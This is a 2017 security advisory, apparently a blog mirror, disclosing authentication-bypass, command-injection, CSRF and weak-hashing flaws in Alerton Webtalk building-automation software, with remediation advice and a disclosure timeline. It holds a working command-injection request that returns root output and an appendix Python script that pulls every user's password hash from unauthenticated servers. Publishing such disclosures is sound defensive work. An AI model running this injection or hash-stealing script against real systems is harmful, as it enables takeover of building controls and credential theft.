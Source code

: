 ```yaml
---
layout: post
title: "Security Issues in Alerton Webtalk (Auth Bypass, RCE)"
category: Security
date: 2017-04-27
tags:
  - Disclosure
  - Security
  - Advisories
---
```


Introduction
------------

Vulnerabilities were identified in the Alerton Webtalk Software supplied by
Alerton.  This software is used for the management of building automation
systems.  These were discovered during a black box assessment and therefore
the
vulnerability list should not be considered exhaustive.  Alerton has
responded
that Webtalk is EOL and past the end of its support period.  Customers
should
move to newer products available from Alerton.  Thanks to Alerton for prompt
replies in communicating with us about these issues.

Versions 2.5 and 3.3 were both confirmed to be affected by these issues.

(This blog post is a duplicate of the
[advisory I sent to the full-disclosure mailing list](http://seclists.org/fulldisclosure/2017/Apr/105).)

Webtalk-01 - Password Hashes Accessible to Unauthenticated Users
----------------------------------------------------------------

Severity: **High**

Password hashes for all of the users configured in Alerton Webtalk are
accessible via a file in the document root of the ‘webtalk’ user.  The
location
of this file is configuration dependent, however the configuration file is
accessible as well (at a static location, /~webtalk/webtalk.ini).  The
password
database is a sqlite3 database whose name is based on the bacnet rep and job
entries from the ini file.

A python proof of concept to reproduce this issue is in an appendix.

Recommendation: Do not store sensitive data within areas being served by the
webserver.

Webtalk-02 - Command Injection for Authenticated Webtalk Users
--------------------------------------------------------------

Severity: **High**

Any user granted the “configure webtalk” permission can execute commands as
the
root user on the underlying server.  There appears to be some effort of
filtering command strings (such as rejecting commands containing pipes and
redirection operators) but this is inadequate.  Using this vulnerability, an
attacker can add an SSH key to the root user’s authorized_keys file.

~~~
GET
/~webtalk/WtStatus.psp?c=update&updateopts=&updateuri=%22%24%28id%29%22&update=True
HTTP/1.1
Host: test-host
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101
Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: NID=...; _SID_=...; OGPC=...:
Connection: close
Upgrade-Insecure-Requests: 1
~~~

~~~
HTTP/1.1 200 OK
Date: Mon, 23 Jan 2017 20:34:26 GMT
Server: Apache
cache-control: no-cache
Set-Cookie: _SID_=...; Path=/;
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 2801

...
uid=0(root) gid=500(webtalk) groups=500(webtalk)
...
~~~

Recommendation: User input should be avoided to shell commands.  If this is
not
possible, shell commands should be properly escaped.  Consider using one of
the
functions from the subprocess module without the shell=True parameter.

Webtalk-03 - Cross-Site Request Forgery
---------------------------------------

Severity: **High**

The entire Webtalk administrative interface lacks any controls against
Cross-Site Request Forgery.  This allows an attacker to execute
administrative
changes without access to valid credentials.  Combined with the above
vulnerability, this allows an attacker to gain root access without any
credentials.

Recommendation: Implement CSRF tokens on all state-changing actions.

Webtalk-04 - Insecure Credential Hashing
----------------------------------------

Severity: **Moderate**

Password hashes in the userprofile.db database are hashed by concatenating
the
password with the username (e.g., PASSUSER) and performing a plain MD5
hash.  No
salts or iterative hashing is performed.  This does not follow password
hashing
best practices and makes for highly practical offline attacks.

Recommendation: Use scrypt, bcrypt, or argon2 for storing password hashes.

Webtalk-05 - Login Flow Defeats Password Hashing
------------------------------------------------

Severity: **Moderate**

Password hashing is performed on the client side, allowing for the replay of
password hashes from Webtalk-01.  While this only works on the mobile login
interface (“PDA” interface, /~webtalk/pda/pda_login.psp), the resulting
session
is able to access all resources and is functionally equivalent to a login
through the Java-based login flow.

Recommendation: Perform hashing on the server side and use TLS to protect
secrets
in transit.


Timeline
--------

- 2017/01/?? - Issues Discovered
- 2017/01/26 - Issues Reported to security () honeywell com
- 2017/01/30 - Initial response from Alerton confirming receipt.
- 2017/02/04 - Alerton reports Webtalk is EOL and issues will not be fixed.
- 2017/04/26 - This disclosure

Discovery
---------

These issues were discovered by David Tomaschik of the Google ISA
Assessments
team.

Appendix A: Script to Extract Hashes
------------------------------------

~~~python
import requests
import sys
import ConfigParser
import StringIO
import sqlite3
import tempfile
import os


def get_webtalk_ini(base_url):
    """Get the webtalk.ini file and parse it."""
    url = '%s/~webtalk/webtalk.ini' % base_url
    r = requests.get(url)
    if r.status_code != 200:
        raise RuntimeError('Unable to get webtalk.ini: %s', url)
    buf = StringIO.StringIO(r.text)
    parser = ConfigParser.RawConfigParser()
    parser.readfp(buf)
    return parser


def get_db_path(base_url, config):
    rep = config.get('bacnet', 'rep')
    job = config.get('bacnet', 'job')
    url = '%s/~webtalk/bts/%s/%s/userprofile.db'
    return url % (base_url, rep, job)


def load_db(url):
    """Load and read the db."""
    r = requests.get(url)
    if r.status_code != 200:
        raise RuntimeError('Unable to get %s.' % url)
    tmpfd, tmpname = tempfile.mkstemp(suffix='.db')
    tmpf = os.fdopen(tmpfd, 'w')
    tmpf.write(r.content)
    tmpf.close()
    con = sqlite3.connect(tmpname)
    cur = con.cursor()
    cur.execute("SELECT UserID, UserPassword FROM tblPassword")
    results = cur.fetchall()
    con.close()
    os.unlink(tmpname)
    return results


def users_for_server(base_url):
    if '://' not in base_url:
        base_url = 'http://%s' % base_url
    ini = get_webtalk_ini(base_url)
    db_path = get_db_path(base_url, ini)
    return load_db(db_path)


if __name__ == '__main__':
    for host in sys.argv[1:]:
        try:
            users = users_for_server(host)
        except Exception as ex:
            sys.stderr.write('%s\n' % str(ex))
            continue
        for u in users:
            print '%s:%s' % (u[0], u[1])
~~~
